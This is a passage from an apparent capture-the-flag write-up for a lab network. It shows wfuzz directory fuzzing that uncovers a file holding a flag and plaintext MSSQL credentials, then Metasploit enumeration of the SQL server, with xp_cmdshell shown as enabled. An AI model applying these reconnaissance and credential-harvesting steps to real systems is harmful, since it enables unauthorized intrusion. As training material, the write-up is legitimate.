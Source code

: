 
We found a file that starts with `poo_co`, but we need to get the rest of the filename using some fuzzing.

We'll take the english dictionary and keep only the words that start with `co`, then use wfuzz to scan the directory:

```
root@kali:~/SecLists# egrep "^co" words.txt > ../co.txt
root@kali:~/SecLists# cd ..
root@kali:~# wfuzz -z file,co.txt --hc 404 http://10.13.38.11//dev/304c0c90fbc6520610abbf378e2339d1/db/poo_FUZZ.txt
```

Success! There's a file called `poo_connection.txt` in the folder containg our first flag and MSSQL credentials:

```
SERVER=10.13.38.11
USERID=external_user
DBNAME=POO_PUBLIC
USERPWD=#p00Public3xt3rnalUs3r#

Flag : POO{fcfb0767f5bd3c...}
```

First flag: `POO{fcfb0767f5bd3c...}`

## MSSQL enumeration

There's no CVE on this server, it's running the latest patched MSSQL.

```
msf auxiliary(admin/mssql/mssql_enum) > run

[*] 10.13.38.11:1433 - Running MS SQL Server Enumeration...
[*] 10.13.38.11:1433 - Version:
[*]	Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) 
[*]		Aug 22 2017 17:04:49 
[*]		Copyright (C) 2017 Microsoft Corporation
[*]		Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
[*] 10.13.38.11:1433 - Configuration Parameters:
[*] 10.13.38.11:1433 - 	C2 Audit Mode is Not Enabled
[*] 10.13.38.11:1433 - 	xp_cmdshell is Enabled
[*] 10.13.38.11:1433 - 	remote access is Enabled
[*] 10.13.38.11:1433 - 	allow updates is Not Enabled
[*] 10.13.38.11:1433 - 	Database Mail XPs is Not Enabled
[*] 10.13.38.11:1433 - 	Ole Automation Procedures are Enabled
[*] 10.13.38.11:1433 - Databases on the server:
[*] 10.13.38.11:1433 - 	Database name:master
[*] 10.13.38.11:1433 - 	Database Files for master:
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\master.mdf
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\mastlog.ldf
[*] 10.13.38.11:1433 - 	Database name:tempdb
[*] 10.13.38.11:1433 - 	Database Files for tempdb:
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\tempdb.mdf
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\templog.ldf
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\tempdb_mssql_2.ndf
[*] 10.13.38.11:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL14.POO_PUBLIC\MSSQL\DATA\tempdb_mssql_3.ndf
```